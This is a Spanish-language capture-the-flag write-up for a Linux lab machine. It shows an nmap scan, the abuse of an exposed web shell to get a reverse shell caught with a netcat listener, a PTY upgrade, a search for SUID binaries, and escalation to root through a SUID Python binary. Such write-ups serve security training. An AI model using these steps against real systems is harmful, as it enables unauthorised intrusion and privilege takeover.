



🔹Maquina: Escolares
📅 Publicado el 19/08/2025 | Categoría: LINUX
📝 Descripción
Este reto consiste en comprometer una máquina Linux en un entorno controlado. No se proporciona una flag directa, pero el objetivo es obtener acceso privilegiado (root) y entender el vector de escalada.
🔍 Análisis inicial
El análisis comenzó con un reconocimiento básico utilizando herramientas de enumeración para comprender los servicios expuestos.
sudo nmap -p- -open -O -sS -sC -min-rate 5000 -n -Pn 172.17.0.2
PORT STATE SERVICE
22/tcp open ssh
| ssh-hostkey:
| 3072 0d:09:9d:0f:dc:43:54:cd:39:a9:e2:d6:81:74:40:e8 (RSA)
| 256 09:d0:f6:52:00:3f:21:51:19:b1:c6:7a:f4:ff:21:01 (ECDSA)
|_ 256 19:e0:b3:72:bd:e9:1e:8d:4c:c4:fd:1f:da:3f:a5:cf (ED25519)
80/tcp open http
|_http-title: The Walking Dead - CTF
En el inicio vemos que el atributo href="hidden/.shell.php" es una redirección hacia ese recurso, es decir, si lo visitas manualmente en el navegador (http://172.17.0.2/hidden/.shell.php)
Al ver esto probamos si se puede usar como web shell
Efectivamente, aprovechando esto nos devolvemos una shell pero la vovemos a url con burp suite:
Ya tenemos acceso:
nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.1.9] from (UNKNOWN) [172.17.0.2] 33564
bash: cannot set terminal process group (23): Inappropriate ioctl for device
bash: no job control in this shell
www-data@c2009a8a5c7c:/var/www/html/hidden$ ls
Mejore la shell con:
python3 -c 'import pty; pty.spawn("/bin/bash")'
Luego verificamos los binarios SUID disponibles:
find / -perm -4000 -type f 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/gpasswd
/usr/bin/su
/usr/bin/man
/usr/bin/umount
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/mount
/usr/bin/chsh
/usr/bin/python3.8
/usr/bin/sudo
💣 Escalada de privilegios / Resolución
Entre ellos encontramos /usr/bin/python3.8, lo cual permite ejecutar código con privilegios elevados. Aprovechamos esto para escalar a root:
/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
Listo:
whoami
root
🏆 Resultado
Conseguimos acceso como root.